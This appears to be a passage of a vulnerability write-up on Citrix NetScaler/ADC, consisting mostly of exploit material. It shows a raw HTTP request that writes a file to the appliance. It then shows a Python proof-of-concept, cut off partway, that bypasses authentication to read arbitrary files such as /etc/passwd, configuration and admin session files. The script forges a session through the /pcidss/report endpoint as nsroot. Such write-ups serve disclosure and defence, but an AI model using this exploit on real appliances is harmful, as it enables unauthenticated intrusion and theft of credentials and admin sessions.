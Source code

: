 ```http
X-NITRO-PASS: henk
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; SESSID=05afba59ef8e0e35933f3bc266941337; rdx_pagination_size=25%20Per%20Page
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

object={"uploadtext":{"filedir":false,"filedata":"data","filename":"/var/tmp/new_directory/this_will_be_removed"}}
```

### Read files
And finally, the ultimate goal, a PoC script to download random files from the Netscaler /ADC, without authentication. This includes things like

- the config file
- admin sessions in /var/nstmp (all files are shown if you query the directory)

```python
#!/usr/bin/env python

import requests
import sys
import string
import random
import json
from urllib.parse import quote

# Slashes need to be urlencoded
PAYLOAD='%2fetc%2fpasswd'

requests.packages.urllib3.disable_warnings()

def random_string(length=8):
	chars = string.ascii_letters + string.digits
	random_string = ''.join(random.choice(chars) for x in range(length))
	return random_string

def create_session(base_url, session):
	url = '{0}/pcidss/report'.format(base_url)

	params = {
		'type':'allprofiles',
		'sid':'loginchallengeresponse1requestbody',
		'username':'nsroot',
		'set':'1'
	}

	headers = {
		'Content-Type':'application/xml',
		'X-NITRO-USER':random_string(),
		'X-NITRO-PASS':random_string(),
	}

	data = '<appfwprofile><login></login></appfwprofile>'
	
	session.post(url=url, params=params, headers=headers, data=data, verify=False)
	return session

def fix_session(base_url, session):
	url = '{0}/menu/ss'.format(base_url)

	params = {
```